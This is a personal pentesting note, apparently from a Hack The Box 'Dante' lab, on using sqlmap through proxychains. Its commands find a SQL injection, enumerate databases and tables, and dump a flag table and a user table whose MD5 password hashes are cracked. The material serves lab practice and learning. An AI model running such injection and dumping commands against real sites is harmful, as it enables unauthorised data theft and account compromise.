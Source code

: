 # 💢 sqlmap
Tags: #💢
Related to: 
See also: 
Previous: [[Web Application Analysis]], [[Database Assessment]], [[Exploitation Tools]]

---
## Description

Automatic SQL injection tool.

## Usage Examples

Test for SQLi:

	proxychains firefox http://172.16.1.12/blog/category.php?id=2%27	// ' == %27 in hex

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1
```

### Enumerate databases

	proxychains sqlmap -u http://172.16.1.12/blog/category.php?id=2 --dbs --batch 

```
available databases [7]:                                                                                            
[*] blog_admin_db
[*] flag
[*] information_schema
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] test
```

### Dump data from flag database

	proxychains sqlmap -u http://172.16.1.12/blog/category.php?id=2 -D flag --dump

```
-D			// DBMS database to enumerate
--dump		// Dump DBMS database table entries
--dump-all	// Dump all DBMS databases tables entries
```

```
Database: flag
Table: flag
[1 entry]
+------------------------------+
| flag                         |
+------------------------------+
| DANTE{wHy_y0U_n0_s3cURe?!?!} |
+------------------------------+
```

### Enumerate tables

	proxychains sqlmap -u http://172.16.1.12/blog/category.php?id=2 -D blog_admin_db --table

```
--tables	// Enumerate DBMS database tables
```

```
Database: blog_admin_db                                                                                             
[13 tables]
+-----------------------------+
| banner_posts                |
| blog_categories             |
| blogs                       |
| editors_choice              |
| links                       |
| membership_grouppermissions |
| membership_groups           |
| membership_userpermissions  |
| membership_userrecords      |
| membership_users            |
| page_hits                   |
| titles                      |
| visitor_info                |
+-----------------------------+
```

### Enumerate table

	proxychains sqlmap -u http://172.16.1.12/blog/category.php?id=2 -D blog_admin_db -T membership_users --dump

```
-T	// DBMS database table(s) to enumerate
```

```
[21:13:55] [INFO] cracked password 'admin' for hash '21232f297a57a5a743894a0e4a801fc3'                              
Database: blog_admin_db                                                                                             
Table: membership_users
[4 entries]
+---------+----------+----------------+---------+---------+---------+---------+------------------------------------------+----------------------------------------------------------------------------------------------+----------+------------+------------+----------------+-------------------+
| groupID | memberID | email          | custom1 | custom2 | custom3 | custom4 | passMD5                                  | comments                                                                                     | isBanned | isApproved | signupDate | pass_reset_key | pass_reset_expiry |
+---------+----------+----------------+---------+---------+---------+---------+------------------------------------------+----------------------------------------------------------------------------------------------+----------+------------+------------+----------------+-------------------+
| 2       | admin    | <blank>        | NULL    | NULL    | NULL    | NULL    | 21232f297a57a5a743894a0e4a801fc3 (admin) | Admin member created automatically on 2018-04-26\nRecord updated automatically on 2018-04-27 | 0        | 1          | 2018-04-26 | NULL           | NULL              |
| NULL    | ben      | ben@dante.htb  | NULL    | NULL    | NULL    | NULL    | 442179ad1de9c25593cabf625c0badb7         | NULL                                                                                         | NULL     | NULL       | NULL       | NULL           | NULL              |
| 3       | egre55   | egre55@htb.com | egre55  | a       | a       | a       | d6501933a2e0ea1f497b87473051417f         | member signed up through the registration form.                                              | 0        | 1          | 2020-08-05 | NULL           | NULL              |
| 1       | guest    | NULL           | NULL    | NULL    | NULL    | NULL    | NULL                                     | Anonymous member created automatically on 2018-04-26                                         | 0        | 1          | 2018-04-26 | NULL           | NULL              |
+---------+----------+----------------+---------+---------+---------+---------+------------------------------------------+----------------------------------------------------------------------------------------------+----------+------------+------------+----------------+-------------------+
```

---
## References
- [[]]